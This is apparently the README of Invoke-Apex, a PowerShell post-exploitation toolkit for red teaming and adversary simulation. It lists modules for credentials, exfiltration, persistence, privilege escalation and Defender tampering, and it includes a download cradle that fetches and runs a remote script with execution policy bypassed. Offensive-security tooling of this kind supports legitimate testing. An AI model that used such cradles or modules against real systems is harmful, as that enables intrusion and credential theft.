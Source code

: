 # Invoke-Apex

```
                                        8888888b.         Y88b   d88P
                                        888   Y88b         Y88b d88P
                                        888    888          Y88o88P
                                8888b.  888   d88P .d88b.    Y888P
                                   "88b 8888888P" d8P  Y8b   d888b
                               .d888888 888       88888888  d88888b
                               888  888 888       Y8b.     d88P Y88b
                               "Y888888 888        "Y8888 d88P   Y88b
                                                                  Y88b
                                  Post-Exploitation Toolkit        Y88b
                                  By: Fabrizio Siciliano (@0rbz_)   V1.0
```

```Invoke-Apex``` is a PowerShell-based toolkit consisting of a collection of techniques and tradecraft for use in red team, post-exploitation, adversary simulation, or other offensive security tasks. &nbsp;It can also be useful in identifying lapses in "malicious" activity detection processes for defenders as well.

Each technique or method in the toolkit is mapped back to a [Mitre ATT&CK](https://attack.mitre.org/) Technique ID where applicable, and the techniques and modules which they can be found in, can be viewed with the ```Invoke-MitreReference -Help``` command. See the section "[The Mitre ATT&CK Reference Component](https://github.com/securemode/Invoke-Apex#the-mitre-attck-reference-component)" for more info!

```Invoke-Apex``` is a work-in-progress, so updates to modules, and additional capability can be expected somewhat regularly as time allows.

## General Usage

### Importing the Toolkit
```PS> Import-Module .\Invoke-Apex.psd1```

All individual "modules" (cmdlets) can of course also be dot-sourced into the current session:

```PS> . .\Invoke-DefenderTools.ps1```

Or can be invoked using a traditional ```DownloadString``` cradle, etc:

```C:\> powershell -ep bypass -nop -noni "iex (New-Object Net.Webclient).DownloadString('https://server/Invoke-DefenderTools.ps1'); Invoke-DefenderTools -GetExcludes"```

### Listing all available functions
```PS> Invoke-Apex```
```
PS> Invoke-Apex

 [*] Usage: [Function-Name] -Help (Shows Help for each command within a function)
 [*] Usage: [Function-Name] -List (Summary list of available commands within a function)

 [*] Example: Invoke-DefenderTools -Help
 [*] Example: Invoke-DefenderTools -List


CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-Apex                                        1.0        Invoke-Apex
Function        Invoke-Compile                                     1.0        Invoke-Apex
Function        Invoke-Connect                                     1.0        Invoke-Apex
Function        Invoke-Creds                                       1.0        Invoke-Apex
Function        Invoke-DefenderTools                               1.0        Invoke-Apex
Function        Invoke-Download                                    1.0        Invoke-Apex
Function        Invoke-Execute                                     1.0        Invoke-Apex
Function        Invoke-Exfil                                       1.0        Invoke-Apex
Function        Invoke-GlasswireExceptions                         1.0        Invoke-Apex
Function        Invoke-MitreReference                              1.0        Invoke-Apex
Function        Invoke-Persistence                                 1.0        Invoke-Apex
Function        Invoke-Privesc                                     1.0        Invoke-Apex
Function        Invoke-Sysinfo                                     1.0        Invoke-Apex